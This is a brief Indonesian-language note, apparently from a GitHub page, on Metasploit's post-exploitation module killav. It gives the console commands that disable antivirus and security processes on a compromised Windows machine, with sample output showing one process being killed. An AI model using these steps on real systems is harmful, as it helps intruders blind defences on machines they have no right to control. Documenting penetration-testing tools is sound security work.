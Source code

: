 # killav

Modul `killav` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mendeteksi dan mematikan (disable) proses antivirus dan solusi keamanan lainnya yang berjalan di komputer target.

## Cara Penggunaan di Metasploit

```
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Attempting to terminate 'update.exe' (PID: 2284) ...
[+] update.exe (PID: 2284) terminated.
[+] A total of 1 process(es) were discovered, 1 were terminated.
[*] Post module execution completed
msf6 post(windows/manage/killav) > opt
```
